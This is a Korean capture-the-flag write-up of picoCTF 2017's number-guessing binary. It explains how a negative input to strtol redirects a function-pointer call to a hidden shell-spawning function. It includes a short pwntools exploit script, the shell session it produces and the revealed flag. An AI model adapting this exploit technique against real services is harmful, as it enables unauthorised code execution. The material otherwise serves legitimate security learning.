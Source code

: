 [바이너리](https://webshell2017.picoctf.com/static/310548ecd55bcf1a15068a582d6971c9/guess_num)

바이너리 파일을 받고 nc 로 접속해서 푸는 문제였다.  
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax@1
  char nptr[4]; // [sp+Ch] [bp-2Ch]@1
  int v6[7]; // [sp+10h] [bp-28h]@2
  int (*v7)(void); // [sp+2Ch] [bp-Ch]@3

  *(_DWORD *)nptr = 0;
  v3 = 0;
  do
  {
    v6[v3] = 0;
    ++v3;
  }
  while ( v3 < 7 );
  setbuf(stdout, 0);
  puts("Welcome to the number guessing game!");
  puts("I'm thinking of a number. Can you guess it?");
  puts("Guess right and you get a shell!");
  printf("Enter your number: ");
  __isoc99_scanf("%32s", nptr);
  v7 = (int (*)(void))strtol(nptr, 0, 10);
  printf("You entered %d. Let's see if it was right...\n", v7);
  v7 = (int (*)(void))((unsigned int)v7 >> 4);
  return v7();
}
```
마지막에 입력한 값을 통해 함수를 불러온다.  
  
BOF로 RET를 덮는게 아닌거 같아  
바이너리를 좀더 살펴보니  
strip 이 없기 때문에  
또다른 사용자정의함수가 눈에 띄었다.  
```
.text:0804852B ; Attributes: bp-based frame
.text:0804852B
.text:0804852B                 public win
.text:0804852B win             proc near
.text:0804852B                 push    ebp
.text:0804852C                 mov     ebp, esp
.text:0804852E                 sub     esp, 8
.text:08048531                 sub     esp, 0Ch
.text:08048534                 push    offset s        ; "Congratulations! Have a shell:"
.text:08048539                 call    _puts
.text:0804853E                 add     esp, 10h
.text:08048541                 sub     esp, 0Ch
.text:08048544                 push    offset command  ; "/bin/sh -i"
.text:08048549                 call    _system
.text:0804854E                 add     esp, 10h
.text:08048551                 leave
.text:08048552                 retn
.text:08048552 win             endp
```
v7() 으로 win함수를 호출하면 되겠다.  
`No PIE`라서 가능했다.  
  
```
    24    v7 = (int (*)(void))((unsigned int)v7 >> 4);
```
호출하기 전(main:24번째 줄)을 보면  
쉬프트연산 때문에  
0x0804852B 이 아닌 0x804852B0(2152223408) 을 넣어야 했다.  
그런데  
```
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: 2152223408
You entered 2147483647. Let's see if it was right...
Segmentation fault
```
2147483647(0x7fffffff) 를 넘어가지 못했다.  
  
```
     1  int __cdecl main(int argc, const char **argv, const char **envp)
...
    21    __isoc99_scanf("%32s", nptr);
    22    v7 = (int (*)(void))strtol(nptr, 0, 10);
    23    printf("You entered %d. Let's see if it was right...\n", v7);
    24    v7 = (int (*)(void))((unsigned int)v7 >> 4);
    25    return v7();
    26  }
```
strtol() 에 대해 검색해보니  
부호가 앞에 올 수 있다는 것을 보았다.  
  
그래서 -1을 입력해보니  
v7=0xffffffff  
이었다.  
  
따라서,  
0xffffffff-(0x804852B<<4)+1 = 2142743888  
이고  
부호 - 만 앞에 붙이면 된다.  
  
```
from pwn import *

r = remote('shell2017.picoctf.com', 64739)
r.recvuntil(': ')
r.sendline('-'+str(0xffffffff-0x804852B0+1))
r.interactive()
```
  
```
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ $ ls
flag.txt
guess_num
xinetd_wrapper.sh
$ $ cat flag.txt
f9ff07fd1d4c7226fd23d998ea2b4b00
$ $
```

